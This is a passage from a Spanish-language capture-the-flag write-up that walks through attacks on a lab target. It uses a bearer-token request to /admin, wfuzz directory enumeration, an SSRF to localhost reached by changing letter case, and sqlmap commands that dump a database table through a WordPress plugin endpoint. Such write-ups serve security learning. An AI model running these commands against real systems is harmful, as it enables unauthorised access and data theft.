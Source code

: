 ![PNG](/images/Pasted%20image%2020221031134930.png)

Copiamos nuestro nuevo Token y hacemos un curl a `/admin`.
```bash
curl http://wp.geohome.com:5000/admin -H "Authorization: Bearer [TOKEN]"
```
Y nos da el output con la flag.

![PNG](/images/Pasted%20image%2020221031135411.png)

---
## FLAG{SSRF_PARA_TOD@S_XD}
Usando `wfuzz` enumeramos directorios mediante un diccionario.
```bash
wfuzz -c -hc -w [wordlist] http://geohome.com/FUZZ.php
```
Obtenemos esto:

![PNG](/images/Pasted%20image%2020221031140135.png)

Dándonos un `/testsite.php`
Abrimos la URL http://geohome.com/testsite.php

![PNG](/images/Pasted%20image%2020221031140629.png)

Vemos que si ingreso index.php me manda a la pantalla de windows server.

![PNG](/images/Pasted%20image%2020221031140712.png)

Por lo que ahora intentamos con `http://localhost:1337`
Lo que nos arroja algo de seguridad.

![PNG](/images/Pasted%20image%2020221031141041.png)

El cual intentando hacer bypass no se pudo, con base64, hexadecimales, se intento jugando entre Mayúsculas y minúsculas y nos dio el resultado con la flag.

![PNG](/images/Pasted%20image%2020221031142444.png)

---
## FLAG{Update_Plugins!}
Verificando https://wp.geohome/robots.txt vemos lo siguiente:

![PNG](/images/Pasted%20image%2020221031125328.png)

Donde anteriormente `nmap` nos dijo que en el puerto 443 existia este archivo.
Lo que se hizo primeramente fue enumerar las tablas con `sqlmap`
```bash
sqlmap -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --tables
```
El cual nos arroja la tabla `flag`.
Entonces ahora hacemos un dump sobre esa tabla.
```bash
sqlmap -u "https://wp.geohome.com/wp-admin/admin-ajax.php?action=get_question&question_id=1" --dump -D flag -T flag
```
Donde nos muestra la tabla y su contenido, en este caso la flag.
